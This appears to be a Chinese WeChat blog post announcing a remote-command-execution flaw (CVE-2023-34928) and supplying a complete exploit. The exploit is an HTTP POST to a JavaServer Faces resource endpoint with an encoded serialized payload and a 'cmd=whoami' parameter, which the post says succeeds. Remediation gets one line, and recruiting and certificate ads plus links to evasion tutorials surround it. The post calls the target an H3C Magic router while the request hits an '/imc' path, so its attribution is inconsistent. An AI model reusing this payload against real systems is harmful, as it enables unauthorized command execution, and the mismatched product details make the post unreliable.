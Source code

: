 #  漏洞速递 | CVE-2023-34928 RCE漏洞（附EXP）

[ 渗透Xiao白帽 ](javascript:void\(0\);)

**渗透Xiao白帽** ![]()

微信号 SuPejkj

功能介绍 积硅步以致千里，积怠惰以致深渊！

____

___发表于_

收录于合集

以下文章来源于哪都通安全 ，作者冯宝宝

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM6N0iaaTORibzibtzV6SicYRmA5rhUVChbD1SxBJSA1sEUUAw/0)
**哪都通安全** .

条条大路通罗马，安全攻防哪都通。

![]()

0x01 前言

H3C Magic 是中国新华三（H3C）公司的一款无线路由器。 H3C Magic
B1STV100R012版本存在安全漏洞。攻击者利用该漏洞可以进行命令执行，获取服务器权限。

0x02 影响版本

  * 

    
    
    H3C Magic B1STV100R012

0x03 漏洞复现

页面是这个酱紫  

![]()

EXP：

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /imc/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1Host: 127.0.0.1:8088User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36Accept: */*Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9Connection: closeContent-Type: application/x-www-form-urlencodedContent-Length: 1567  
    pfdrt=sc&ln=primefaces&pfdrid=uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkUDzOAoSQnmBt4dYyjvjGhVqupdmBV%2FKAe9gtw54DSQCl72JjEAsHTRvxAuJC%2B%2FIFzB8dhqyGafOLqDOqc4QwUqLOJ5KuwGRarsPnIcJJwQQ7fEGzDwgaD0Njf%2FcNrT5NsETV8ToCfDLgkzjKVoz1ghGlbYnrjgqWarDvBnuv%2BEo5hxA5sgRQcWsFs1aN0zI9h8ecWvxGVmreIAuWduuetMakDq7ccNwStDSn2W6c%2BGvDYH7pKUiyBaGv9gshhhVGunrKvtJmJf04rVOy%2BZLezLj6vK%2BpVFyKR7s8xN5Ol1tz%2FG0VTJWYtaIwJ8rcWJLtVeLnXMlEcKBqd4yAtVfQNLA5AYtNBHneYyGZKAGivVYteZzG1IiJBtuZjHlE3kaH2N2XDLcOJKfyM%2FcwqYIl9PUvfC2Xh63Wh4yCFKJZGA2W0bnzXs8jdjMQoiKZnZiqRyDqkr5PwWqW16%2FI7eog15OBl4Kco%2FVjHHu8Mzg5DOvNevzs7hejq6rdj4T4AEDVrPMQS0HaIH%2BN7wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRyC5HiSzRNn2DpnyzBIaZ8GDmz8AtbXt57uuUPRgyhdbZjIJx%2FqFUj%2BDikXHLvbUMrMlNAqSFJpqoy%2FQywVdBmlVdx%2BvJelZEK%2BBwNF9J4p%2F1fQ8wJZL2LB9SnqxAKr5kdCs0H%2FvouGHAXJZ%2BJzx5gcCw5h6%2Fp3ZkZMnMhkPMGWYIhFyWSSQwm6zmSZh1vRKfGRYd36aiRKgf3AynLVfTvxqPzqFh8BJUZ5Mh3V9R6D%2FukinKlX99zSUlQaueU22fj2jCgzvbpYwBUpD6a6tEoModbqMSIr0r7kYpE3tWAaF0ww4INtv2zUoQCRKo5BqCZFyaXrLnj7oA6RGm7ziH6xlFrOxtRd%2BLylDFB3dcYIgZtZoaSMAV3pyNoOzHy%2B1UtHe1nL97jJUCjUEbIOUPn70hyab29iHYAf3%2B9h0aurkyJVR28jIQlF4nT0nZqpixP%2Fnc0zrGppyu8dFzMqSqhRJgIkRrETErXPQ9sl%2BzoSf6CNta5ssizanfqqCmbwcvJkAlnPCP5OJhVes7lKCMlGH%2BOwPjT2xMuT6zaTMu3UMXeTd7U8yImpSbwTLhqcbaygXt8hhGSn5Qr7UQymKkAZGNKHGBbHeBIrEdjnVphcw9L2BjmaE%2BlsjMhGqFH6XWP5GD8FeHFtuY8bz08F4Wjt5wAeUZQOI4rSTpzgssoS1vbjJGzFukA07ahU%3D&cmd=whoami

success  

![]()

0x04 参考来源

  * 

    
    
    https://mp.weixin.qq.com/s/fkg2ED-jhZlz9DaEAdh2WQ

0x05 修复方案

  * 

    
    
    建议及时更新至最新版本！

  

![]() **网 安 考 证![]()** 需要考以下各类安全证书的可以联系我，价格优惠、组团更便宜！

CISP、PTE、PTS、DSG、IRE、IRS、NISP、PMP、CCSK、CISSP、ISO27001...  
  
---  
  
![]()

[高薪内推 |
2023国HVV来了！大量招人中···](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247498134&idx=1&sn=4cecd60053bd173b844b9e2ad8c52131&chksm=ea3406ccdd438fdad9eaa763e0eacd6e90b3f4cd2e36cea629e3ecf9a7fa975042bfa651c441&scene=21#wechat_redirect)

 **内推通道** 👇

http://gywa.com.cn/hsqXti

报名投递简历时记得备注【渗透Xiao白帽】可优先直推面试～

也可阅读原文报名或扫描上方二维码邀请进群交流～

![]()

23hvv红蓝py交流群，共享资源 一起py![]()

 _ **不定期福利赠送**_

群满可以后台加vx备注py 邀请进群![]()

![]()

  

 **【往期推荐】**  

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)

[【超详细 | Python】CS免杀-Shellcode
Loader原理(python)](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486582&idx=1&sn=572fbe4a921366c009365c4a37f52836&chksm=ea37f32cdd407a3aea2d4c100fdc0a9941b78b3c5d6f46ba6f71e946f2c82b5118bf1829d2dc&scene=21#wechat_redirect)

[【超详细 | Python】CS免杀-
分离+混淆免杀思路](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486638&idx=1&sn=99ce07c365acec41b6c8da07692ffca9&chksm=ea37f3f4dd407ae28611d23b31c39ff1c8bc79762bfe2535f12d1b9d7a6991777b178a89b308&scene=21#wechat_redirect)  

[【超详细 | 钟馗之眼】ZoomEye-
python命令行的使用](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247488453&idx=1&sn=5828a0e1a2299d3ee0215f0ed4c30bf1&chksm=ea37ec9fdd406589124c67c45487be39ed1033d88c627092cf07f6d4f14ccdb9079b38dba74d&scene=21#wechat_redirect)  

[【超详细 | 附EXP】Weblogic CVE-2021-2394
RCE漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247488922&idx=1&sn=f43e3c243bbbfd2822867a3acaa8b85e&chksm=ea37eac0dd4063d63d98f935c73ce571cbfeb0e7272a6f171a28143bdb3e7134b09ea874969a&scene=21#wechat_redirect)

[【超详细】CVE-2020-14882 |
Weblogic未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)

[【超详细 | 附PoC】CVE-2021-2109 | Weblogic
Server远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)

[【漏洞分析 | 附EXP】CVE-2021-21985 VMware vCenter Server
远程代码执行漏洞](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487906&idx=1&sn=e35998115108336f8b7c6679e16d1d0a&chksm=ea37eef8dd4067ee13470391ded0f1c8e269f01bcdee4273e9f57ca8924797447f72eb2656b2&scene=21#wechat_redirect)

[【CNVD-2021-30167 | 附PoC】用友NC
BeanShell远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247487897&idx=1&sn=6ab1eb2c83f164ff65084f8ba015ad60&chksm=ea37eec3dd4067d56adcb89a27478f7dbbb83b5077af14e108eca0c82168ae53ce4d1fbffabf&scene=21#wechat_redirect)  

##
[【奇淫巧技】如何成为一个合格的“FOFA”工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange
远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

[  记一次HW实战笔记 |
艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

 **走过路过的大佬们留个关注再走呗![]()**

 **往期文章有彩蛋哦![]()** ****

 _ ****_  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

